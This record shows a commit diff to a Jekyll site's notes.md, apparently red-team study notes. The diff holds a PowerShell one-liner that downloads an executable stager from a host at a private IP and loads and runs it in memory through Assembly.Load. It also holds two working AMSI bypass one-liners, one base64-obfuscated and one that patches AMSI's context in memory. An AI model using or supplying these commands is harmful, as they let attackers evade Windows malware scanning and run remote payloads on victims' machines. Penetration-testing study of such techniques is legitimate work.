

Before and after one commit to Fil88/Fil88.github.io, a Jekyll site: the page built from notes.md, in a window 1280 px wide and 1400 px high, scrolled down 1497 px. Shown: the whole window at 82% size. Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours.

Commit message:
Update notes.md

````diff
--- a/notes.md
+++ b/notes.md
@@ -82,8 +82,14 @@ Hello World
 You can use this reflection technique to download and run a GruntStager EXE directly from memory, without having it touch disk.  For example:
 
 ```powershell
-PS > $malware = (new-object net.webclient).downloaddata("http://10.8.0.6/http-malw.exe")
-PS > [System.Reflection.Assembly]::Load($malware)
+PS > $monk = (new-object net.webclient).downloaddata("http://192.168.152.100/monk.exe")
+PS > [System.Reflection.Assembly]::Load($monk)
+
+GAC Version Location
+--- ------- --------
+False v4.0.30319
+
+PS > [MonkStager.MonkStager]::Execute()
 ```
 
 __Note:__ .NET 4.8, Assembly.Load is AMSI-aware 🚩
@@ -118,10 +124,9 @@ AMSI : The term 'AMSI' is not recognized as the name of a cmdlet, function, scri
 
 ```powershell
 # Base 64 AMSI bypass
-	[Ref].Assembly.GetType('System.Management.Automation.'+$([Text.Encoding]::Unicode.GetString([Convert]::FromBase64String('QQBtAHMAaQBVAHQAaQBsAHMA')))).GetField($([Text.Encoding]::Unicode.GetString([Convert]::FromBase64String('YQBtAHMAaQBJAG4AaQB0AEYAYQBpAGwAZQBkAA=='))),'NonPublic,Static').SetValue($null,$true)
-	```
+[Ref].Assembly.GetType('System.Management.Automation.'+$([Text.Encoding]::Unicode.GetString([Convert]::FromBase64String('QQBtAHMAaQBVAHQAaQBsAHMA')))).GetField($([Text.Encoding]::Unicode.GetString([Convert]::FromBase64String('YQBtAHMAaQBJAG4AaQB0AEYAYQBpAGwAZQBkAA=='))),'NonPublic,Static').SetValue($null,$true)
 
-```powershell
+
 $a=[Ref].Assembly.GetTypes();Foreach($b in $a) {if ($b.Name -like "*iUtils") {$c=$b}};$d=$c.GetFields('NonPublic,Static');Foreach($e in $d) {if ($e.Name -like "*Context") {$f=$e}};$g=$f.GetValue($null);[IntPtr]$ptr=$g;[Int32[]]$buf = @(0);[System.Runtime.InteropServices.Marshal]::Copy($buf, 0, $ptr, 1)
 ```
 
````
